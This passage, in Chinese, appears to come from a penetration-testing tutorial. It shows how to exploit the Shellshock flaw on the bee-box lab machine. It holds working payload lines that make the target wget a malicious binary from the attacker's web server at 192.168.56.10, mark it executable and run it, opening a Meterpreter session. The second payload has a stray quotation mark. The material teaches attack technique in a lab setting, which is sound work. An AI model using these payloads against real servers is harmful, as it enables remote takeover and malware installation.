 1.  现在我们的 Kali 准备好了，是时候准备攻击目标了。以 root 用户启动 Apache 服务并运行以下代码：

```
service apache2 start
```

1.  然后，将恶意文件复制到 Web 服务器文件夹：

```
cp cute_dolphin.bin /var/www/html/
```

1.  接下来，我们开始进行攻击。我们知道 bee-box 存在 Shellshock 漏洞，将利用它让服务器下载恶意文件。使用以下有效载荷在服务器上利用 Shellshock 漏洞：

```
() { :;}; echo "Vulnerable:" $(/bin/sh -c "/usr/bin/wget http://192.168.56.10/cute_dolphin.bin -O /tmp/cute_dolphin.bin;chmod +x /tmp/cute_dolphin.bin; ls -l /tmp/cute_dolphin.bin")
```

载荷的最后两部分用于设置下载文件的执行权限（`chmod +x /tmp/cute_dolphin.bin`）以及确认文件已下载（`ls -l /tmp/cute_dolphin.bin`）。如以下截图所示，成功利用漏洞将返回文件名及其属性：

![](img/5b54ca2c-b228-4ada-9ccf-0c922020a878.png)

1.  在服务器中存在文件后，我们再次利用 Shellshock 来执行它：`() { :;}; echo "Vulnerable:" $(/tmp/cute_dolphin.bin")`。

1.  如果一切顺利，我们应该能够在 Metasploit 的监听器中看到一个连接，如下所示：

![](img/12914c45-d1cc-4f15-8e7f-be0b06c2eebb.png)

1.  一旦会话建立，我们可以使用 `help` 命令查看 meterpreter 的功能，并开始在受损服务器上运行命令：
